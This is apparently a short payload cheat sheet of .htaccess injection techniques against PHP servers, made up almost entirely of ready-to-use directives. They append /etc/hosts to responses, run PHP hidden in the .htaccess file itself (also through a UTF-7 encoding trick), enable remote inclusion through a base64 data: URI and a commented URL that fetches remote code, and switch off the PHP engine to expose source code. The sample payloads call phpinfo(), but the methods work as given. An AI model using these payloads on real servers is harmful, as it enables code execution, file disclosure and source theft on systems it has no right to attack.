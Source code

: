 htaccess injection payload
================================

file inclusion
--------------------------------
::

    php_value auto_append_file /etc/hosts

code execution
--------------------------------
::

    php_value auto_append_file .htaccess
    #<?php phpinfo();

file inclusion
--------------------------------
::

    php_flag allow_url_include 1
    php_value auto_append_file data://text/plain;base64,PD9waHAgcGhwaW5mbygpOw==
    #php_value auto_append_file data://text/plain,%3C%3Fphp+phpinfo%28%29%3B
    #php_value auto_append_file https://sektioneins.de/evil-code.txt

code execution with UTF-7
--------------------------------
::

    php_flag zend.multibyte 1
    php_value zend.script_encoding "UTF-7"
    php_value auto_append_file .htaccess
    #+ADw?php phpinfo()+ADs

Source code disclosure
--------------------------------
::

    php_flag engine 0
